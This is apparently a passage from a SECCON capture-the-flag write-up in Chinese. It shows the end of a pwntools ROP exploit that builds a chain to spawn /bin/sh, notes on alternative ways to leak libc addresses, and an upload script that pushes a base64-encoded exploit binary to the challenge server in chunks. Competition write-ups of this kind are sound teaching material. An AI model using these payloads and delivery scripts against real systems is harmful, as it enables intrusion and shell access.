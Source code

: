 ```python
bss_libc = 0x404770
_system_off = 0xffe68c10
payload2 = flat(
    pop_rdi_ret, bss_libc - 0x20,
    gets_plt,
    csu_gadget, _system_off, bss_libc + 0x3d, 0, 0, 0, 0,
    add_dptr_ebx_ret,
    pop_rbp_ret, bss_libc - 0x20,
    leave_ret
)
payload3 = b"/bin/sh\x00" + p64(pop_rdi_ret) + p64(bss_libc - 0x20) + p64(ret)

r.sendline(payload1)
input()
r.sendline(payload2)
input()
r.sendline(payload3)

r.interactive()
```



預期解 & 其他解法：

1. 如果是只能使用 `read()` 的狀況下，由於 syscall 會在 rcx 留下 libc address (`read()` function return address)，而再配合gadget：

   ```
   0x4011b0 : add dword ptr [rax + 0x39], ecx ; fnsave dword ptr [rbp - 0x16] ; add rsp, 8 ; pop rbx ; pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
   ```

   與可控 rax 的 function 即可寫入 libc 到任意位址

2. 將 stack 遷到 bss 時，呼叫 `_start` 也能在 stack 留下 libc address



### kone_gadget

upload.py

```python
#!/usr/bin/python3

from pwn import *
from base64 import b64encode, b64decode
import subprocess
import os

r = remote('niwatori.quals.seccon.jp', 11111)
proc = subprocess.Popen(r.recvline()[:-1].split(b' '), stdout=subprocess.PIPE)
out, _ = proc.communicate()
r.sendlineafter('hashcash token:', out[:-1])

payload = b64encode(open('./rootfs/exp', 'rb').read())
times = 100
part = len(payload) // times
if len(payload) % times != 0:
    times += 1

for i in range(times):
    r.sendlineafter('$', b"echo " + payload[i*part:(i+1)*part] + b" >> /tmp/exp.b64")
    print(b"echo " + payload[i*part:(i+1)*part] + b" >> /tmp/exp.b64")
r.sendlineafter('$', "cat /tmp/exp.b64 | base64 -d > /tmp/exp")
r.interactive()
```
